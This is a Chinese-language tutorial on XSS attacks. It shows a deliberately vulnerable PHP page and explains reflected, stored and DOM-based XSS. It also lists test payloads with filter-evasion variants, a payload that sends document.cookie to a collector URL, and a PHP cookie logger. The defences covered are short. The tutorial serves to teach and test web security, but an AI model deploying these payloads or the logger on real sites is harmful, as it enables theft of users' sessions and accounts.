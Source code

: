 # 基础漏洞系列——XSS跨站脚本攻击详解

## 简介：

XSS（跨站脚本攻击）攻击通常指的是通过利用[网页](https://baike.baidu.com/item/网页/99347)开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括Java、 VBScript、ActiveX、 Flash  或者甚至是普通的HTML。攻击成功后，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。

## 漏洞原理实例：

对于用户提交的数据没有，后台或者JS（DOM型）没有做过滤或过滤不完全，将用户输入的信息打印出来，那么用户就可以构造特定的payload来在前端执行js语句，就造成了XSS跨站脚本攻击，下面为大家演示最简单的xss漏洞。

**后端代码（xss.php）：**

```php
<?php

$id=$_REQUEST['id'];
echo $id;

?>
```

我们把它保存在我们网站的根目录，如果用户构造如下payload，就会产生弹窗：白泽Sec

```url
http://127.0.0.1/xss.php?id=<script>alert("白泽Sec")</script>
```

![image-20210131230644583](XSS%E8%B7%A8%E7%AB%99/image-20210131230644583.png)

当然弹窗并没有什么危害，但如果用户访问的是如下url，那么就会将用户的cookie信息发送给攻击者

```
http://127.0.0.1/xss.php?id=<script>window.open("http://127.0.0.1/cookie.php?cookie='+document.cookie+'")</script>
```

这就是最简单的xss跨站脚本攻击了，黑客只需要构造好url诱使用户点击，如果用户访问了该url，那么了你的cookie就会被发送到黑客的服务器，黑客就可以使用你的身份来登录网站了，危害可想而知。

## 漏洞分类：

### 反射型：

注入的JS脚本是一次性的，不会存在于网站上，只有用户点击了特定的url后才会触发，例如上面的示例，代码：`http://127.0.0.1/xss.php?id=<script>alert("白泽Sec")</script>`，只有用户点击才会弹窗，否则不会触发

### 存储型：

注入的JS脚本是保存到网站服务器端的，比如将`<script>alert("白泽Sec")</script>`当作用户名保存到网站上，如果网站没有进行过滤，那么每当有人浏览到你的用户名，就会触发JS代码

### DOM型：

和反射型XSS较为类似，不过DOM型注入的JS脚本不经过后端的处理，也正因为如此，才和反射型xss区分开，下面举个例子讲解DOM型XSS漏洞

HTML代码：

```html
<html>
    <head>
        <title> 白泽Sec </title>
    </head>
    <body>
        <script>
            window.onload= function(){
                var p=document.getElementById("p")
                var Text=document.getElementById("text1");
                var Btn=document.getElementById("Btn");
                Btn.onclick = function(){
                    p.innerHTML = Text.value + "<br/>";
                    Text.value=""
                };
            }
        </script>
        <p id="p">白泽Sec</p>
        <input type="text" id="text1"/>
        <input id="Btn" type="button" value="提交"/>
    </body>
</html>
```

![image-20210201003155590](XSS%E8%B7%A8%E7%AB%99/image-20210201003155590.png)

在这个页面中，我们输入的数据是由前端的JS脚本控制的，直接输出在了标签p中，那么如果我们输入的值为`<img src=11 onerror=alert("白泽Sec")>`，那么会直接输出从而产生xss漏洞，如下图

![image-20210201004631909](XSS%E8%B7%A8%E7%AB%99/image-20210201004631909.png)

## 漏洞检测：

在可以提交数据的地方插入测试弹窗的代码，如果成功弹窗，即存在xss漏洞，实际情况中会存在很多情况，例如我们插入的代码输出在其他标签中，我们就需要先闭合这些标签，也有的地方会有过滤，但是有可能过滤的不完全，也会造成xss漏洞，就需要我们不断地测试。

给出一些常用的代码：

```
<script>alert(xss)</script> 
<script>alert(/xss/)</script>
'><script>alert(xss)</script> 
"><script>alert(xss)</script> 
<scr<script>ipt>alert(xss)</scr</script>ipt> 
<ScRiPt>alert(xss)</ScRiPt>
'><ScRiPt>alert(xss)</ScRiPt>
"<ScRiPt>alert(xss)</ScRiPt>
<javascript:alert(xss)>
' onfocus=javascript:alert(xss)>
"> <a href=javascript:alert('xss') > xss</a>
"> <a HrEf=javascript:alert('xss') > xss</a>
<img src=1 onerror=alert(xss)>
<Img src=1 onErrOr=AleRt(xss)>
<IMG SRC="" onerror="alert('XSS')">
<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)</script> 
<svg><script>alert&#40/1/&#41</script> 
&#60;script&#62;alert(xss)&#60;/script&#62;
```

针对waf等过滤拦截自行FUZZ即可。

## 漏洞利用：

这里给出简单的利用代码

xss.php

```
<?
$cookie=$_GET['cookie'];
$referer=$_SERVER['HTTP_REFERER'];
$ip = $_SERVER['REMOTE_ADDR'];
$file=fopen('cookie.txt','a');
fwrite($file,"地址为：".$referer."\r\n"."cookie为：".$cookie."\r\n"."ip为：".$ip."\r\n"."****************************************"."\r\n");
fclose($file);
?>
```

将上面代码保存为你的网站页面，例如：127.0.0.1/xss.php，在可能出现xss的地方使用标签插入你的链接带上?cookie=document.cookie就可以了。

## 常见场景：

搜索框，个人信息栏等需要用户提交数据并返回给客户端的地方。

## 漏洞防御：

WAF拦截敏感字符

Filter，代码层面过滤敏感字符

htmlspecialchars()

Httponly